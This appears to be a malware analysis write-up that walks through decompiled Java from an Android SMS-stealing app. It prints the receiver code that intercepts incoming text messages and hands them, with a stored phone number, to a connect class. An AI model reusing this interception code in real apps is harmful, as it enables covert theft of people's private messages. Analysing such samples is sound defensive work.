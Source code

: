 ```java
package ir.siqe.holo;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.SharedPreferences;
import android.os.Bundle;
import android.telephony.SmsMessage;
[TRUNCATED]
```

The class is then implemented using the sharedPreferences context and os bundle. The shared_prefs file `info` is then being loaded into `sharedPreference` and then loading the interface editor to later read and edit the `info` file. On the next line the Bundle util is being called and creating an empty variable with the ability to store and retrieve data.

Skipping to the `String str` line we can see that the malware is attempting to grab the flavor of the android device from the `BuildConfig` class using `com.androidnetworking` package. This may be to determine whether the device is a debug or release build.

```java
[TRUNCATED]
/* loaded from: classes.dex */
public class MyReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        SharedPreferences sharedPreferences = context.getSharedPreferences("info", 0);
        SharedPreferences.Editor edit = sharedPreferences.edit();
        Bundle extras = intent.getExtras();
        String str = com.androidnetworking.BuildConfig.FLAVOR;
[TRUNCATED]
```

The next chunk of code in the `MyReceiver` class runs a series of if statements, the later two which I have pulled from my example. The first if statement checks if the `extras` variable is equal to null. If it is not equal to null then it places the extras variable from Bundle and reads the PDUs (Protocol Data Unit) or users sms messages. Placing the pdus into an array called `SmsMessage`. Storing the messages line by line into a new `str` variable and creating a new line break.

Lastly the class connect is called and obtains the string details from the `sharedPreference`  called earlier. Specifically the `str` and `context` or messages and phone number they are from. 

```java
	[TRUNCATED]
        if (extras != null) {
            Object[] objArr = (Object[]) extras.get("pdus");
            int length = objArr.length;
            SmsMessage[] smsMessageArr = new SmsMessage[length];
            for (int i = 0; i < length; i++) {
                smsMessageArr[i] = SmsMessage.createFromPdu((byte[]) objArr[i]);
                str = ((str + "\r\n") + smsMessageArr[i].getMessageBody().toString()) + "\r\n";
            }
        }
[TRUNCATED]
        new connect(sharedPreferences.getString("phone", "0"), str, context);
    }
}
```

